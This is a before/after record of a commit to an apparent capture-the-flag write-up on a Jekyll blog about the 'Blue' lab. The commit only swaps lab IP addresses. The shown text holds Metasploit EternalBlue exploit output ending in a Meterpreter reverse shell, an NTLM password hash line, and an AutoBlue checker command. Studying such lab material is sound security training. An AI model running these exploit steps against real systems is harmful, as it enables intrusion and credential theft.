

Before and after one commit to debiantano/old_page2, a Jekyll site: the page built from _posts/2021-07-29-Blue.md, in a window 1280 px wide and 1400 px high, scrolled down 3537 px. Shown: the part 448-1400 px from the top of the window, without its empty margins (23-1095 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-29-Blue.md

````diff
--- a/_posts/2021-07-29-Blue.md
+++ b/_posts/2021-07-29-Blue.md
@@ -181,30 +181,30 @@ Exploit target:
 msf6 exploit(windows/smb/ms17_010_eternalblue) > run
 
 [*] Started reverse TCP handler on 10.9.102.237:4444
-[*] 10.10.122.242:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
-[+] 10.10.122.242:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
-[*] 10.10.122.242:445     - Scanned 1 of 1 hosts (100% complete)
-[*] 10.10.122.242:445 - Connecting to target for exploitation.
-[+] 10.10.122.242:445 - Connection established for exploitation.
-[+] 10.10.122.242:445 - Target OS selected valid for OS indicated by SMB reply
-[*] 10.10.122.242:445 - CORE raw buffer dump (42 bytes)
-[*] 10.10.122.242:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
-[*] 10.10.122.242:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
-[*] 10.10.122.242:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
-[+] 10.10.122.242:445 - Target arch selected valid for arch indicated by DCE/RPC reply
-[*] 10.10.122.242:445 - Trying exploit with 12 Groom Allocations.
-[*] 10.10.122.242:445 - Sending all but last fragment of exploit packet
-[*] 10.10.122.242:445 - Starting non-paged pool grooming
-[+] 10.10.122.242:445 - Sending SMBv2 buffers
-[+] 10.10.122.242:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
-[*] 10.10.122.242:445 - Sending final SMBv2 buffers.
-[*] 10.10.122.242:445 - Sending last fragment of exploit packet!
-[*] 10.10.122.242:445 - Receiving response from exploit packet
-[+] 10.10.122.242:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
-[*] 10.10.122.242:445 - Sending egg to corrupted connection.
-[*] 10.10.122.242:445 - Triggering free of corrupted buffer.
-[*] Sending stage (200262 bytes) to 10.10.122.242
-[*] Meterpreter session 1 opened (10.9.102.237:4444 -> 10.10.122.242:49240) at 2021-07-29 12:08:01 -0500
+[*] 10.10.114.85:445  - Using auxiliary/scanner/smb/smb_ms17_010 as check
+[+] 10.10.114.85:445  - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
+[*] 10.10.114.85:445  - Scanned 1 of 1 hosts (100% complete)
+[*] 10.10.114.85:445  - Connecting to target for exploitation.
+[+] 10.10.114.85:445  - Connection established for exploitation.
+[+] 10.10.114.85:445  - Target OS selected valid for OS indicated by SMB reply
+[*] 10.10.114.85:445  - CORE raw buffer dump (42 bytes)
+[*] 10.10.114.85:445  - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
+[*] 10.10.114.85:445  - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
+[*] 10.10.114.85:445  - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
+[+] 10.10.114.85:445  - Target arch selected valid for arch indicated by DCE/RPC reply
+[*] 10.10.114.85:445  - Trying exploit with 12 Groom Allocations.
+[*] 10.10.114.85:445  - Sending all but last fragment of exploit packet
+[*] 10.10.114.85:445  - Starting non-paged pool grooming
+[+] 10.10.114.85:445  - Sending SMBv2 buffers
+[+] 10.10.114.85:445  - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
+[*] 10.10.114.85:445  - Sending final SMBv2 buffers.
+[*] 10.10.114.85:445  - Sending last fragment of exploit packet!
+[*] 10.10.114.85:445  - Receiving response from exploit packet
+[+] 10.10.114.85:445  - ETERNALBLUE overwrite completed successfully (0xC000000D)!
+[*] 10.10.114.85:445  - Sending egg to corrupted connection.
+[*] 10.10.114.85:445  - Triggering free of corrupted buffer.
+[*] Sending stage (200262 bytes) to 10.10.114.85
+[*] Meterpreter session 1 opened (10.9.102.237:4444 -> 10.10.114.85:49240) at 2021-07-29 12:08:01 -0500
 [+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
 [+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
 [+] 10.10.122.242:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
@@ -224,7 +224,7 @@ Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
 Cloning the [3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) repository for the intrusion part of the system.
 
 ```
-❯ python3 eternal_checker.py 10.10.63.61
+❯ python3 eternal_checker.py 10.10.114.85
 [*] Target OS: Windows 7 Professional 7601 Service Pack 1
 [!] The target is not patched
 === Testing named pipes ===
````
